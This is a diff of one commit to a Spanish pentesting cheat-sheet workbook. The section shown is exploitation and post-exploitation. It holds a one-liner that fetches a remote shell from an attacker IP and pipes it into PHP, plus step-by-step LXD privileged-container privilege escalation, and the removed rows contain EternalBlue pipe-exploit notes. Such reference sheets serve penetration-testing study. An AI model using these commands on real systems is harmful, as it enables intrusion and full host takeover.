

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-Z14: curl 10.10.10.10/shell.txt|php
+Z14: curl http://10.10.10.10/shell.txt|php
-AD17: (empty)
+AD17: https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
-AE17: (empty)
+AE17: Importar la imagen
-AF17: (empty)
+AF17: 1 Descargamos la imagen
-AD18: ETERNALBLUE
+AD18: lxc image import alpine-v3.13-x86_64-20210206_2250.tar.gz --alias alpine
-AD18:AF18 merged
-AE18: (empty)
+AE18: Importamos la imagen añadiendo un alias
-AF18: (empty)
+AF18: 2 Si nos da error al generar la imagen --> rootfs/usr/share/alpine-mirrors/MIRRORS.txt --> Añadir el mirror "https://nl.alpinelinux.org/alpine" --> https://github.com/alpinelinux/alpine-make-rootfs/blob/master/alpine-make-rootfs
-AD19: Comando
+AD19: lxd --init auto
-AE19: Descripcion
+AE19: Iniciar lxd
-AF19: Anotaciones
+AF19: 3
-AD20: zzz_exploit.py
+AD20: lxc init alpine privesc -c security.privileged=true
-AE20: Pipes Eternal. Si al comprobar el EternalBlue nos dice que algun pipe es permitido podemos usar el pipe permitido y cargar una shell
+AE20: Habilitar los privilegios
-AF20: Descomentamos service_exec y le pasamos el comando que queremos que se ejecute, el smbConn y lo otro lo comentamos
+AF20: 4
```
Also changed, not shown: 177 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Interceptadores & Web, sheet Enumeracion & Escaneos, sheet Inyecciones, sheet Reconocimiento & Informacion, sheet Reversing & Forensics, 1 more sheet, cell formats, charts or pictures.
